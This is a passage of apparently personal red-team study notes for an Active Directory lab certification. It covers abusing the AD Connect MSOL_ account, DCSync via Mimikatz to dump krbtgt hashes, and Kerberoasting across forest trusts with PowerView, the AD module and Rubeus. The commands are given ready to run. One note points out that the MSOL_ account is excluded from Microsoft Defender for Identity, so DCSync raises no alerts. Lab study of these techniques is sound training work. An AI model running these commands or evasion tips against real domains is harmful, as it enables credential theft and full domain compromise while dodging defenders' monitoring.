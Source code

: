 > [Note] The above script's code runs powershell.exe so verbose logs (like transcripts) will be there.

With the password, we can run commands as **MSOL_**:
```powershell
runas /user:techcorp.local\MSOL_16fb75d0227d /netonly cmd
```

And can then execute the DCSync attack:
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:techcorp\krbtgt /domain:techcorp.local"'
```

> [NOTE] Because AD Connect synchronizes hashes every two minutes, in an Enterprise Environment, the **MSOL_** account will be **excluded from tools like MDI**! 

> This will allow us to run DCSync without any alerts!



# Forest Root

- Child to Forest Root - Trust Key
- Child to Forest Root - krbtgt

same material of CRTP:

[CRTP - Privesc Across Trusts](https://MashrurRahmanRawnok.github.io/notes/crtp/domprivesc/#privesc---across-trusts)


 

# Kerberoast across Forest Trusts

> It is possible to execute Kerberoast across Forest trusts.

**Let's enumerate named service accounts across forest trusts**

Using PowerView:
```powershell
Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'} | %{Get-DomainUser -SPN -Domain $_.TargetName}
```

Using ActiveDirectory Module:
```powershell
Get-ADTrust -Filter 'IntraForest -ne $true' | %{Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName -Server $_.Name}
```

Request a TGS:
```powershell
C:\AD\Tools\Rubeus.exe kerberoast /user:storagesvc /simple /domain:eu.local /outfile:euhashes.txt
```

Check for the TGS:
```powershell
klist
```
